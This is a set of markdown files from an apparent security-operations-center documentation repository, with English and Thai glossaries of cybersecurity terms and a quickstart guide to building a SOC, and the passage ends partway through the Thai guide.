- [CISA Known Exploited Vulnerabilities](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
- [NIST NVD](https://nvd.nist.gov/)


---

## File: 00_Getting_Started/Glossary.en.md

# Glossary of Cybersecurity & SOC Terms

A beginner-friendly dictionary of terms used throughout this repository. Terms are organized alphabetically.

---

## A

| Term | Definition |
|---|---|
| **Active Directory (AD)** | Microsoft's directory service that manages users, computers, and permissions in a Windows network. A primary target for attackers. |
| **Alert** | A notification generated by a security tool (e.g., SIEM) when suspicious activity is detected. Alerts require triage by a SOC analyst. |
| **APT (Advanced Persistent Threat)** | A highly sophisticated, well-funded attacker (often nation-state) that targets specific organizations over long periods. |
| **ATT&CK** | See **MITRE ATT&CK**. |

## B

| Term | Definition |
|---|---|
| **BEC (Business Email Compromise)** | An attack where criminals impersonate executives via email to trick employees into transferring money or sensitive data. |
| **Blue Team** | The defensive security team responsible for protecting the organization. SOC analysts are blue team members. |
| **Brute Force** | An attack that tries many password combinations until one works. Often seen in login attempts. |

## C

| Term | Definition |
|---|---|
| **C2 (Command and Control)** | Infrastructure used by attackers to remotely control compromised systems. Also written as C&C. |
| **CISA** | Cybersecurity and Infrastructure Security Agency — the U.S. federal agency for cybersecurity guidance. |
| **CISO (Chief Information Security Officer)** | The executive responsible for an organization's overall security strategy. The SOC Manager typically reports to the CISO. |
| **CSIRT (Computer Security Incident Response Team)** | A team dedicated to responding to computer security incidents. SOC is a type of CSIRT. |
| **CTI (Cyber Threat Intelligence)** | Information about threats, threat actors, and their tactics, collected and analyzed to improve defenses. |
| **CVE (Common Vulnerabilities and Exposures)** | A unique identifier for publicly known security vulnerabilities (e.g., CVE-2021-44228 for Log4Shell). |

## D

| Term | Definition |
|---|---|
| **DDoS (Distributed Denial of Service)** | An attack that floods a target with traffic from many sources, making it unavailable to legitimate users. |
| **Detection Rule** | A logic statement (e.g., Sigma rule) that defines what suspicious activity looks like in log data. When matched, it generates an alert. |

## E

| Term | Definition |
|---|---|
| **EDR (Endpoint Detection and Response)** | Software installed on computers/servers that monitors for and responds to malicious activity. Examples: CrowdStrike, SentinelOne, Wazuh. |
| **Endpoint** | Any device connected to the network — laptops, desktops, servers, mobile phones. |
| **Escalation** | The process of passing an alert or incident from a lower tier analyst to a higher tier for deeper investigation. |
| **Exfiltration** | The unauthorized transfer of data out of an organization. The attacker's goal in many breaches. |

## F

| Term | Definition |
|---|---|
| **False Positive (FP)** | An alert that triggers on benign (non-malicious) activity. Reducing FPs is a key SOC efficiency metric. |
| **False Negative (FN)** | A real attack that the detection system fails to detect. Much more dangerous than a False Positive. |
| **Firewall** | A network device that controls incoming and outgoing traffic based on security rules. |
| **Forensics** | The process of collecting and analyzing digital evidence after a security incident. |

## G-H

| Term | Definition |
|---|---|
| **GDPR (General Data Protection Regulation)** | EU regulation for data privacy. Organizations must report breaches within 72 hours. |
| **Hash** | A fixed-length string generated from a file (e.g., MD5, SHA-256). Used to identify malware without needing the actual file. |
| **Honeypot** | A decoy system designed to attract attackers, allowing the SOC to study their techniques. |

## I

| Term | Definition |
|---|---|
| **IDS/IPS** | **Intrusion Detection System** (monitors and alerts) / **Intrusion Prevention System** (monitors and blocks). |
| **Incident** | A confirmed security event that requires response. Not all alerts become incidents. |
| **IOC (Indicator of Compromise)** | Evidence that an attack has occurred — malicious IP addresses, domain names, file hashes, URLs. |
| **IR (Incident Response)** | The process of detecting, analyzing, containing, and recovering from security incidents. |

## K-L

| Term | Definition |
|---|---|
| **Kill Chain** | A model describing the stages of a cyber attack: Recon → Weaponize → Deliver → Exploit → Install → C2 → Actions. |
| **Lateral Movement** | When an attacker moves from one compromised system to another within the same network. |
| **Log** | A recorded event from a system (firewall log, login log, application log). Logs are the raw data SOC analysts analyze. |

## M

| Term | Definition |
|---|---|
| **Malware** | Malicious software — viruses, trojans, ransomware, worms, spyware. |
| **MISP** | Open-source Threat Intelligence Platform for sharing IOCs between organizations. |
| **MITRE ATT&CK** | A knowledge base of adversary Tactics, Techniques, and Procedures (TTPs). The global standard for categorizing attacks. |
| **MTTD (Mean Time To Detect)** | Average time from an attack starting to the SOC detecting it. Lower is better. |
| **MTTR (Mean Time To Respond)** | Average time from detection to containment of an incident. Lower is better. |

## N-O

| Term | Definition |
|---|---|
| **NDR (Network Detection and Response)** | Technology that monitors network traffic for threats. Complements EDR (which monitors endpoints). |
| **NIST** | National Institute of Standards and Technology — the U.S. agency that publishes cybersecurity frameworks and guidelines (SP 800 series). |
| **OSINT (Open Source Intelligence)** | Intelligence gathered from publicly available sources (social media, websites, public databases). |

## P

| Term | Definition |
|---|---|
| **PDPA** | Thailand's Personal Data Protection Act — similar to GDPR. Requires organizations to protect personal data. |
| **Phishing** | An attack using fake emails, messages, or websites to trick people into revealing credentials or installing malware. |
| **Playbook** | A step-by-step procedure for responding to a specific type of security incident (e.g., Phishing Playbook). |
| **Purple Team** | A collaborative exercise where Red Team (attackers) and Blue Team (defenders) work together to test and improve defenses. |

## R

| Term | Definition |
|---|---|
| **Ransomware** | Malware that encrypts files and demands payment (ransom) to decrypt them. One of the most damaging attack types. |
| **RCA (Root Cause Analysis)** | The process of identifying the fundamental cause of an incident to prevent recurrence. |
| **Red Team** | The offensive security team that simulates attacks to test the organization's defenses. |
| **Runbook** | See **Playbook** (terms are often used interchangeably). |

## S

| Term | Definition |
|---|---|
| **SIEM (Security Information and Event Management)** | The central platform that collects logs from all sources, correlates events, and generates alerts. The "brain" of a SOC. Examples: Splunk, Microsoft Sentinel, Wazuh. |
| **Sigma** | A generic and open signature format for SIEM detection rules. Write once, convert to any SIEM query language. |
| **SOAR (Security Orchestration, Automation, and Response)** | A platform that automates repetitive SOC tasks (e.g., auto-blocking an IP, auto-enriching alerts). |
| **SOC (Security Operations Center)** | A team and facility dedicated to monitoring, detecting, and responding to cybersecurity threats 24/7. |
| **SOC-CMM** | SOC Capability Maturity Model — a framework to assess and improve SOC maturity across 5 levels. |
| **STIX/TAXII** | Standards for sharing threat intelligence data between organizations. STIX defines the format; TAXII defines the transport. |

## T

| Term | Definition |
|---|---|
| **Threat Hunting** | Proactive searching for hidden threats in the environment that have evaded automated detection. Performed by Tier 3 analysts. |
| **Tier 1 / Tier 2 / Tier 3** | SOC analyst levels. Tier 1 = triage, Tier 2 = investigation, Tier 3 = hunting and advanced analysis. |
| **TLP (Traffic Light Protocol)** | A system for classifying how sensitive information can be shared: TLP:RED (restricted), TLP:AMBER (limited), TLP:GREEN (community), TLP:CLEAR (public). |
| **True Positive (TP)** | An alert that correctly identifies a real security threat. The opposite of False Positive. |
| **TTP (Tactics, Techniques, and Procedures)** | The behavior patterns of an attacker — what they do (Tactic), how they do it (Technique), and the specific steps (Procedure). |

## V-W

| Term | Definition |
|---|---|
| **Vulnerability** | A weakness in a system that an attacker can exploit. Tracked by CVE identifiers. |
| **VPN (Virtual Private Network)** | An encrypted tunnel for secure remote access to the organization's network. |
| **YARA** | A tool and rule format for identifying and classifying malware based on patterns in files. |

## X-Z

| Term | Definition |
|---|---|
| **XDR (Extended Detection and Response)** | An evolution of EDR that integrates data from endpoints, network, cloud, and email into a single detection platform. |
| **Zero-Day** | A vulnerability that is unknown to the vendor and has no patch available. Extremely dangerous because no defense exists yet. |

---

## Related Documents
-   [SOC 101](SOC_101.en.md)
-   [Quickstart Guide](Quickstart_Guide.en.md)
-   [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md)
-   [Threat Intelligence Lifecycle](../06_Operations_Management/Threat_Intelligence_Lifecycle.en.md)

## References
-   [MITRE ATT&CK Glossary](https://attack.mitre.org/resources/)
-   [NIST Glossary of Key Information Security Terms](https://csrc.nist.gov/glossary)
-   [FIRST — CSIRT Services Framework](https://www.first.org/standards/frameworks/)
-   [SANS Glossary of Security Terms](https://www.sans.org/security-resources/glossary-of-terms/)


---

## File: 00_Getting_Started/Glossary.th.md

# คำศัพท์ด้านไซเบอร์ซีเคียวริตี้และ SOC (Glossary)

พจนานุกรมศัพท์เทคนิคที่ใช้ตลอดทั้ง Repository นี้ อธิบายแบบเข้าใจง่ายสำหรับผู้เริ่มต้น เรียงตามตัวอักษร

---

## A

| คำศัพท์ | คำอธิบาย |
|---|---|
| **Active Directory (AD)** | ระบบจัดการผู้ใช้, คอมพิวเตอร์ และสิทธิ์ในเครือข่าย Windows ของ Microsoft เป็นเป้าหมายหลักของผู้โจมตี |
| **Alert (แจ้งเตือน)** | การแจ้งเตือนจากเครื่องมือรักษาความปลอดภัย (เช่น SIEM) เมื่อพบกิจกรรมน่าสงสัย ต้องให้ SOC Analyst คัดกรอง |
| **APT (Advanced Persistent Threat)** | ผู้โจมตีระดับสูงที่มีทรัพยากรมาก (มักเป็นระดับรัฐ) โจมตีองค์กรเป้าหมายเป็นระยะเวลานาน |
| **ATT&CK** | ดู **MITRE ATT&CK** |

## B

| คำศัพท์ | คำอธิบาย |
|---|---|
| **BEC (Business Email Compromise)** | การโจมตีที่แฮกเกอร์ปลอมเป็นผู้บริหาร ส่งอีเมลหลอกพนักงานให้โอนเงินหรือส่งข้อมูลสำคัญ |
| **Blue Team (ทีมน้ำเงิน)** | ทีมป้องกันความปลอดภัย SOC Analyst อยู่ในทีม Blue Team |
| **Brute Force** | การโจมตีที่ลองรหัสผ่านจำนวนมากจนกว่าจะถูก มักเห็นในการ Login |

## C

| คำศัพท์ | คำอธิบาย |
|---|---|
| **C2 (Command and Control)** | โครงสร้างพื้นฐานที่ผู้โจมตีใช้ควบคุมเครื่องที่ถูกแฮกจากระยะไกล เขียนว่า C&C ก็ได้ |
| **CISA** | Cybersecurity and Infrastructure Security Agency — หน่วยงานด้านไซเบอร์ของสหรัฐอเมริกา |
| **CISO** | Chief Information Security Officer — ผู้บริหารที่รับผิดชอบกลยุทธ์ความปลอดภัยทั้งหมดขององค์กร |
| **CSIRT** | Computer Security Incident Response Team — ทีมตอบสนองเหตุการณ์ด้านไซเบอร์ SOC เป็น CSIRT ประเภทหนึ่ง |
| **CTI (Cyber Threat Intelligence)** | ข่าวกรองเกี่ยวกับภัยคุกคาม ผู้โจมตี และเทคนิคของพวกเขา เพื่อปรับปรุงการป้องกัน |
| **CVE** | รหัสเฉพาะสำหรับช่องโหว่ที่เปิดเผยต่อสาธารณะ (เช่น CVE-2021-44228 สำหรับ Log4Shell) |

## D

| คำศัพท์ | คำอธิบาย |
|---|---|
| **DDoS (Distributed Denial of Service)** | การโจมตีที่ส่ง Traffic จำนวนมหาศาลจากหลายแหล่งไปยังเป้าหมาย ทำให้ระบบใช้งานไม่ได้ |
| **Detection Rule (กฎตรวจจับ)** | ตรรกะ (เช่น Sigma Rule) ที่กำหนดว่ากิจกรรมน่าสงสัยหน้าตาเป็นอย่างไรใน Log เมื่อตรงกันจะสร้าง Alert |

## E

| คำศัพท์ | คำอธิบาย |
|---|---|
| **EDR (Endpoint Detection and Response)** | ซอฟต์แวร์ที่ติดตั้งบนเครื่องคอมพิวเตอร์/เซิร์ฟเวอร์ เฝ้าดูและตอบสนองต่อกิจกรรมอันตราย ตัวอย่าง: CrowdStrike, SentinelOne, Wazuh |
| **Endpoint** | อุปกรณ์ที่เชื่อมต่อกับเครือข่าย — แล็ปท็อป, เดสก์ท็อป, เซิร์ฟเวอร์, มือถือ |
| **Escalation (ส่งต่อ)** | กระบวนการส่ง Alert หรือ Incident จาก Analyst ระดับต่ำไปยังระดับสูงเพื่อสืบสวนเชิงลึก |
| **Exfiltration (นำข้อมูลออก)** | การถ่ายโอนข้อมูลออกจากองค์กรโดยไม่ได้รับอนุญาต เป็นเป้าหมายของผู้โจมตีในการแฮกหลายครั้ง |

## F

| คำศัพท์ | คำอธิบาย |
|---|---|
| **False Positive (FP)** | Alert ที่แจ้งเตือนผิด — เป็นกิจกรรมปกติแต่ถูกตรวจจับว่าเป็นภัย การลด FP เป็นตัวชี้วัดสำคัญ |
| **False Negative (FN)** | การโจมตีจริงที่ระบบตรวจไม่พบ อันตรายกว่า False Positive มาก |
| **Firewall** | อุปกรณ์เครือข่ายที่ควบคุม Traffic ขาเข้าและขาออกตามกฎรักษาความปลอดภัย |
| **Forensics (นิติวิทยาศาสตร์ดิจิทัล)** | กระบวนการรวบรวมและวิเคราะห์หลักฐานดิจิทัลหลังจากเกิดเหตุการณ์ด้านความปลอดภัย |

## G-H

| คำศัพท์ | คำอธิบาย |
|---|---|
| **GDPR** | General Data Protection Regulation — กฎหมายคุ้มครองข้อมูลส่วนบุคคลของสหภาพยุโรป ต้องรายงานข้อมูลรั่วไหลภายใน 72 ชั่วโมง |
| **Hash** | ค่าความยาวคงที่ที่สร้างจากไฟล์ (เช่น MD5, SHA-256) ใช้ระบุมัลแวร์โดยไม่ต้องมีไฟล์จริง |
| **Honeypot (กับดัก)** | ระบบหลอกล่อที่ออกแบบมาเพื่อดึงดูดผู้โจมตี ให้ SOC ศึกษาเทคนิคของพวกเขา |

## I

| คำศัพท์ | คำอธิบาย |
|---|---|
| **IDS/IPS** | **Intrusion Detection System** (ตรวจจับและแจ้งเตือน) / **Intrusion Prevention System** (ตรวจจับและบล็อก) |
| **Incident (เหตุการณ์)** | เหตุการณ์ด้านความปลอดภัยที่ยืนยันแล้วและต้องตอบสนอง ไม่ใช่ทุก Alert จะกลายเป็น Incident |
| **IOC (Indicator of Compromise)** | หลักฐานว่าเกิดการโจมตี — IP อันตราย, ชื่อโดเมน, Hash ไฟล์, URL |
| **IR (Incident Response)** | กระบวนการตรวจจับ วิเคราะห์ จำกัดวง และกู้คืนจากเหตุการณ์ด้านความปลอดภัย |

## K-L

| คำศัพท์ | คำอธิบาย |
|---|---|
| **Kill Chain** | โมเดลอธิบายขั้นตอนการโจมตี: สำรวจ → สร้างอาวุธ → ส่ง → แทรก → ติดตั้ง → ควบคุม → ดำเนินการ |
| **Lateral Movement (เคลื่อนที่ด้านข้าง)** | เมื่อผู้โจมตีย้ายจากเครื่องที่ถูกแฮกไปยังเครื่องอื่นในเครือข่ายเดียวกัน |
| **Log (บันทึก)** | เหตุการณ์ที่ถูกบันทึกจากระบบ (Log Firewall, Log การ Login, Log แอปพลิเคชัน) เป็นข้อมูลดิบที่ SOC วิเคราะห์ |

## M

| คำศัพท์ | คำอธิบาย |
|---|---|
| **Malware (มัลแวร์)** | ซอฟต์แวร์อันตราย — ไวรัส, Trojan, Ransomware, Worm, Spyware |
| **MISP** | แพลตฟอร์ม Threat Intelligence แบบ Open Source สำหรับแชร์ IOC ระหว่างองค์กร |
| **MITRE ATT&CK** | ฐานข้อมูลความรู้เกี่ยวกับ Tactic, Technique และ Procedure ของผู้โจมตี เป็นมาตรฐานสากลในการจัดหมวดหมู่การโจมตี |
| **MTTD (Mean Time To Detect)** | เวลาเฉลี่ยตั้งแต่เกิดการโจมตีจนกว่า SOC จะตรวจพบ ยิ่งต่ำยิ่งดี |
| **MTTR (Mean Time To Respond)** | เวลาเฉลี่ยตั้งแต่ตรวจพบจนจำกัดวง Incident ได้ ยิ่งต่ำยิ่งดี |

## N-O

| คำศัพท์ | คำอธิบาย |
|---|---|
| **NDR (Network Detection and Response)** | เทคโนโลยีเฝ้าดู Traffic เครือข่ายเพื่อหาภัยคุกคาม เสริม EDR (ที่ดูเครื่อง Endpoint) |
| **NIST** | National Institute of Standards and Technology — หน่วยงานสหรัฐที่เผยแพร่กรอบและแนวปฏิบัติด้าน Cybersecurity (ชุด SP 800) |
| **OSINT (Open Source Intelligence)** | ข่าวกรองจากแหล่งข้อมูลสาธารณะ (โซเชียลมีเดีย, เว็บไซต์, ฐานข้อมูลสาธารณะ) |

## P

| คำศัพท์ | คำอธิบาย |
|---|---|
| **PDPA** | พ.ร.บ. คุ้มครองข้อมูลส่วนบุคคล ของประเทศไทย คล้าย GDPR ของยุโรป กำหนดให้องค์กรต้องปกป้องข้อมูลส่วนบุคคล |
| **Phishing** | การโจมตีด้วยอีเมล, ข้อความ หรือเว็บไซต์ปลอม หลอกให้เหยื่อเปิดเผยรหัสผ่านหรือติดตั้งมัลแวร์ |
| **Playbook (คู่มือปฏิบัติ)** | ขั้นตอนการรับมือเหตุการณ์ด้านความปลอดภัยแต่ละประเภท (เช่น Phishing Playbook) |
| **Purple Team (ทีมม่วง)** | การฝึกซ้อมร่วมระหว่าง Red Team (โจมตี) และ Blue Team (ป้องกัน) เพื่อทดสอบและปรับปรุงการป้องกัน |

## R

| คำศัพท์ | คำอธิบาย |
|---|---|
| **Ransomware** | มัลแวร์ที่เข้ารหัสไฟล์และเรียกค่าไถ่เพื่อถอดรหัส เป็นการโจมตีที่สร้างความเสียหายมากที่สุดประเภทหนึ่ง |
| **RCA (Root Cause Analysis)** | กระบวนการหาสาเหตุรากฐานของ Incident เพื่อป้องกันไม่ให้เกิดซ้ำ |
| **Red Team (ทีมแดง)** | ทีมโจมตีเชิงรุกที่จำลองการโจมตีเพื่อทดสอบการป้องกันขององค์กร |

## S

| คำศัพท์ | คำอธิบาย |
|---|---|
| **SIEM** | Security Information and Event Management — แพลตฟอร์มหลักที่รวม Log จากทุกแหล่ง สร้าง Alert เป็น "สมอง" ของ SOC ตัวอย่าง: Splunk, Microsoft Sentinel, Wazuh |
| **Sigma** | รูปแบบเขียนกฎตรวจจับแบบเปิดสำหรับ SIEM เขียนครั้งเดียวแปลงเป็น Query ของ SIEM ใดก็ได้ |
| **SOAR** | Security Orchestration, Automation, and Response — แพลตฟอร์มทำงาน SOC ซ้ำๆ อัตโนมัติ (เช่น บล็อก IP อัตโนมัติ) |
| **SOC** | Security Operations Center — ทีมและสถานที่เฝ้าระวัง ตรวจจับ และตอบสนองต่อภัยคุกคาม 24/7 |
| **SOC-CMM** | SOC Capability Maturity Model — กรอบประเมินและปรับปรุงระดับวุฒิภาวะ SOC 5 ระดับ |
| **STIX/TAXII** | มาตรฐานแชร์ข้อมูล Threat Intelligence ระหว่างองค์กร STIX กำหนดรูปแบบ, TAXII กำหนดการส่ง |

## T

| คำศัพท์ | คำอธิบาย |
|---|---|
| **Threat Hunting (ล่าภัยคุกคาม)** | การค้นหาภัยคุกคามที่ซ่อนอยู่ในระบบเชิงรุก ที่ระบบอัตโนมัติตรวจไม่พบ ทำโดย Tier 3 Analyst |
| **Tier 1 / Tier 2 / Tier 3** | ระดับของ SOC Analyst — Tier 1 = คัดกรอง, Tier 2 = สืบสวน, Tier 3 = ล่าภัยและวิเคราะห์ขั้นสูง |
| **TLP (Traffic Light Protocol)** | ระบบจัดระดับความลับของข้อมูล: TLP:RED (จำกัดสูง), TLP:AMBER (จำกัด), TLP:GREEN (ชุมชน), TLP:CLEAR (สาธารณะ) |
| **True Positive (TP)** | Alert ที่ถูกต้อง ตรวจจับภัยจริงได้ ตรงข้ามกับ False Positive |
| **TTP (Tactics, Techniques, and Procedures)** | รูปแบบพฤติกรรมของผู้โจมตี — ทำอะไร (Tactic), ทำอย่างไร (Technique), ขั้นตอนเฉพาะ (Procedure) |

## V-W

| คำศัพท์ | คำอธิบาย |
|---|---|
| **Vulnerability (ช่องโหว่)** | จุดอ่อนในระบบที่ผู้โจมตีสามารถใช้ประโยชน์ได้ ติดตามด้วยรหัส CVE |
| **VPN** | Virtual Private Network — อุโมงค์เข้ารหัสสำหรับเข้าถึงเครือข่ายขององค์กรจากระยะไกลอย่างปลอดภัย |
| **YARA** | เครื่องมือและรูปแบบกฎสำหรับระบุและจัดประเภทมัลแวร์จาก Pattern ในไฟล์ |

## X-Z

| คำศัพท์ | คำอธิบาย |
|---|---|
| **XDR (Extended Detection and Response)** | วิวัฒนาการของ EDR ที่รวมข้อมูลจาก Endpoint, เครือข่าย, Cloud และอีเมลเข้าเป็นแพลตฟอร์มตรวจจับเดียว |
| **Zero-Day** | ช่องโหว่ที่ยังไม่มีใครรู้ (รวมถึงผู้ผลิต) และยังไม่มี Patch แก้ไข อันตรายมากเพราะยังไม่มีการป้องกัน |

---

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [SOC 101](SOC_101.th.md)
-   [คู่มือเริ่มต้นด่วน](Quickstart_Guide.th.md)
-   [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md)
-   [วงจรชีวิต Threat Intelligence](../06_Operations_Management/Threat_Intelligence_Lifecycle.th.md)

## References
-   [MITRE ATT&CK Glossary](https://attack.mitre.org/resources/)
-   [NIST Glossary of Key Information Security Terms](https://csrc.nist.gov/glossary)
-   [FIRST — CSIRT Services Framework](https://www.first.org/standards/frameworks/)
-   [SANS Glossary of Security Terms](https://www.sans.org/security-resources/glossary-of-terms/)


---

## File: 00_Getting_Started/Quickstart_Guide.en.md

# Quickstart Guide — Your SOC in 30 Minutes

This guide shows you the **fastest path** through this repository. Follow the numbered steps to understand and implement a SOC from scratch.

## Reading Roadmap

```mermaid
graph TD
    START[🚀 START HERE] --> S1[1. SOC 101]
    S1 --> S2[2. Team Structure]
    S2 --> S3[3. Infrastructure Setup]
    S3 --> S4[4. IR Framework]
    S4 --> S5[5. Your First 5 Playbooks]
    S5 --> S6[6. Detection Rules]
    S6 --> S7[7. Shift Operations]
    S7 --> S8[8. KPIs & Reporting]
    S8 --> S9[9. Purple Team Testing]
    S9 --> S10[10. Train New Analysts]

    style START fill:#e74c3c,color:#fff
    style S5 fill:#2ecc71,color:#fff
    style S10 fill:#3498db,color:#fff
```

## Step-by-Step Reading Order

### 🔴 Week 1 — Understand (Read Only)

| Step | Time | Document | What You'll Learn |
|:---:|:---:|---|---|
| 1 | 15 min | [SOC 101](SOC_101.en.md) | What a SOC is, core components, maturity phases |
| 2 | 10 min | [Glossary](Glossary.en.md) | Key terminology (SIEM, EDR, IOC, TTP, etc.) |
| 3 | 10 min | [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md) | Roles, staffing model, career path |

### 🟠 Week 2 — Plan (Design Your SOC)

| Step | Time | Document | What You'll Learn |
|:---:|:---:|---|---|
| 4 | 15 min | [Infrastructure Setup](../10_Training_Onboarding/System_Activation.en.md) | What systems you need to deploy |
| 5 | 10 min | [Data Governance](../02_Platform_Operations/Database_Management.en.md) | How to manage log data and retention |
| 6 | 10 min | [SOC Assessment Checklist](../06_Operations_Management/SOC_Assessment_Checklist.en.md) | Gap analysis for your current state |

### 🟡 Week 3 — Build (Implement Core Processes)

| Step | Time | Document | What You'll Learn |
|:---:|:---:|---|---|
| 7 | 20 min | [IR Framework](../05_Incident_Response/Framework.en.md) | How to handle incidents end-to-end |
| 8 | 30 min | **Top 5 Playbooks** (see below) | How to respond to common attacks |
| 9 | 15 min | [Detection Rules](../08_Detection_Engineering/README.md) | Pre-built Sigma rules to deploy |
| 10 | 10 min | [Integration Hub](../03_User_Guides/Integration_Hub.en.md) | How to connect tools together |

### 🟢 Week 4 — Operate (Go Live)

| Step | Time | Document | What You'll Learn |
|:---:|:---:|---|---|
| 11 | 10 min | [Shift Handoff](../06_Operations_Management/Shift_Handoff.en.md) | How to run 24/7 operations |
| 12 | 10 min | [SOC Metrics](../06_Operations_Management/SOC_Metrics.en.md) | MTTD, MTTR, False Positive Rate |
| 13 | 15 min | [Monthly Report Template](../11_Reporting_Templates/Monthly_SOC_Report.en.md) | Reporting to leadership |
| 14 | 10 min | [Analyst Onboarding Path](../10_Training_Onboarding/Analyst_Onboarding_Path.en.md) | How to train new hires |

## Top 5 Playbooks to Start With

Start with these — they cover 80% of real-world incidents:

| Priority | Playbook | Why Start Here |
|:---:|---|---|
| 1️⃣ | [Phishing](../05_Incident_Response/Playbooks/Phishing.en.md) | #1 most common attack vector |
| 2️⃣ | [Malware Infection](../05_Incident_Response/Playbooks/Malware_Infection.en.md) | Most frequent escalation from Phishing |
| 3️⃣ | [Brute Force](../05_Incident_Response/Playbooks/Brute_Force.en.md) | Easy to detect, good for training Tier 1 |
| 4️⃣ | [Account Compromise](../05_Incident_Response/Playbooks/Account_Compromise.en.md) | Growing attack surface with cloud adoption |
| 5️⃣ | [Ransomware](../05_Incident_Response/Playbooks/Ransomware.en.md) | Highest business impact |

## SOC Maturity Roadmap

```mermaid
graph TD
    subgraph Phase1["Phase 1: CRAWL (Month 1-3)"]
        A1[Deploy SIEM]
        A2[Onboard Top 10 Log Sources]
        A3[Hire 3-5 Staff]
        A4[Basic Escalation Process]
    end

    subgraph Phase2["Phase 2: WALK (Month 3-6)"]
        B1[10 Detection Rules Live]
        B2[5 Playbooks Active]
        B3["Shift Schedule (8x5)"]
        B4["FP Rate < 30%"]
    end

    subgraph Phase3["Phase 3: RUN (Month 6-12)"]
        C1[All 50 Playbooks]
        C2[EDR on All Endpoints]
        C3[First Purple Team Exercise]
        C4[Monthly KPI Reporting]
    end

    subgraph Phase4["Phase 4: SPRINT (Year 1-2)"]
        D1[Threat Hunting Program]
        D2[Threat Intel Feeds]
        D3[SOAR Automation]
        D4[MITRE ATT&CK Coverage Map]
    end

    subgraph Phase5["Phase 5: FLY (Year 2+)"]
        E1["SOC-CMM Level 3+"]
        E2["80%+ Automated Triage"]
        E3[Detection-as-Code CI/CD]
        E4[Annual SOC Assessment]
    end

    Phase1 --> Phase2 --> Phase3 --> Phase4 --> Phase5

    style Phase1 fill:#e74c3c,color:#fff
    style Phase2 fill:#e67e22,color:#fff
    style Phase3 fill:#f1c40f,color:#000
    style Phase4 fill:#2ecc71,color:#fff
    style Phase5 fill:#3498db,color:#fff
```

## Minimum Viable SOC Checklist

The absolute minimum you need to start — your "Day 1" checklist:

- [ ] **1 SIEM deployed** (Wazuh recommended for budget-conscious orgs)
- [ ] **3 log sources onboarded** (Firewall, Active Directory, Email)
- [ ] **3 people hired** (2 Tier 1 Analysts + 1 Manager)
- [ ] **5 detection rules enabled** (from our `08_Detection_Engineering/sigma_rules/`)
- [ ] **1 Playbook ready** (start with Phishing)
- [ ] **1 ticketing system** (TheHive or Jira)
- [ ] **1 escalation path defined** (Tier 1 → Manager → CISO)
- [ ] **1 communication channel** (Slack/Teams for SOC team)

> ✅ If you can check all 8 boxes above, you have a functioning SOC!

## Frequently Asked Questions

| # | Question | Answer |
|:---|:---|:---|
| 1 | How many people do I need to start a SOC? | Minimum 3: 2 T1 analysts + 1 manager. See [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md) |
| 2 | What SIEM should I use? | For budget: Wazuh (free). For enterprise: Splunk, Elastic, or Sentinel. |
| 3 | How long until my SOC is effective? | Crawl (3 months), Walk (6 months), Run (12 months). Plan for at least 6 months. |
| 4 | Do I need 24/7 coverage from day 1? | No. Start with 8x5, then expand as maturity grows. |
| 5 | Which playbooks should I create first? | Phishing, Malware, Brute Force, Account Compromise, Ransomware. |
| 6 | How many detection rules do I need? | Start with 5-10 high-confidence rules, then expand. Quality > quantity. |
| 7 | Should I build or buy a SOC? | Start with internal + MSSP support if budget allows. See [SOC Assessment](../06_Operations_Management/SOC_Assessment_Checklist.en.md). |
| 8 | What certifications do analysts need? | T1: Security+/CySA+. T2: GCIH. T3: GCFA/OSCP. |
| 9 | How do I measure SOC effectiveness? | MTTD, MTTR, FP rate, SLA compliance. See [SOC Metrics](../06_Operations_Management/SOC_Metrics.en.md). |
| 10 | Can I use this repository for my organization? | Yes! Fork it, customize it, contribute back. See [CONTRIBUTING](../CONTRIBUTING.md). |

## Related Documents
-   [SOC 101](SOC_101.en.md)
-   [Glossary of Terms](Glossary.en.md)
-   [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md)
-   [Analyst Onboarding Path](../10_Training_Onboarding/Analyst_Onboarding_Path.en.md)

## References
-   [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
-   [SOC-CMM — SOC Capability Maturity Model](https://www.soc-cmm.com/)
-   [SANS SOC Survey](https://www.sans.org/white-papers/soc-survey/)


---

## File: 00_Getting_Started/Quickstart_Guide.th.md

# คู่มือเริ่มต้นด่วน — สร้าง SOC ใน 30 นาที (Quickstart Guide)

คู่มือนี้แสดง **เส้นทางที่เร็วที่สุด** ในการอ่านเอกสารทั้ง Repository ทำตามขั้นตอนเพื่อทำความเข้าใจและตั้ง SOC ตั้งแต่เริ่มต้น

## แผนที่การอ่าน (Reading Roadmap)

```mermaid
graph TD
    START[🚀 เริ่มตรงนี้] --> S1[1. SOC 101]
    S1 --> S2[2. โครงสร้างทีม]
    S2 --> S3[3. ติดตั้งโครงสร้างพื้นฐาน]
    S3 --> S4[4. กรอบ IR]
    S4 --> S5[5. Playbook 5 ชุดแรก]
    S5 --> S6[6. กฎตรวจจับ]
    S6 --> S7[7. ระบบกะ]
    S7 --> S8[8. KPI และรายงาน]
    S8 --> S9[9. ทดสอบ Purple Team]
    S9 --> S10[10. ฝึกอบรม Analyst]

    style START fill:#e74c3c,color:#fff
    style S5 fill:#2ecc71,color:#fff
    style S10 fill:#3498db,color:#fff
```

## ขั้นตอนการอ่าน (Step-by-Step Reading Order)

### 🔴 สัปดาห์ที่ 1 — ทำความเข้าใจ (อ่านอย่างเดียว)

| ขั้นตอน | เวลา | เอกสาร | สิ่งที่จะเรียนรู้ |
|:---:|:---:|---|---|
| 1 | 15 นาที | [SOC 101](SOC_101.th.md) | SOC คืออะไร องค์ประกอบหลัก ขั้นตอนการเติบโต |
| 2 | 10 นาที | [คำศัพท์สำคัญ](Glossary.th.md) | ศัพท์เทคนิค (SIEM, EDR, IOC, TTP เป็นต้น) |
| 3 | 10 นาที | [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md) | บทบาท จำนวนคน เส้นทางอาชีพ |

### 🟠 สัปดาห์ที่ 2 — วางแผน (ออกแบบ SOC ของคุณ)

| ขั้นตอน | เวลา | เอกสาร | สิ่งที่จะเรียนรู้ |
|:---:|:---:|---|---|
| 4 | 15 นาที | [การติดตั้ง SOC](../10_Training_Onboarding/System_Activation.th.md) | ต้อง Deploy ระบบอะไรบ้าง |
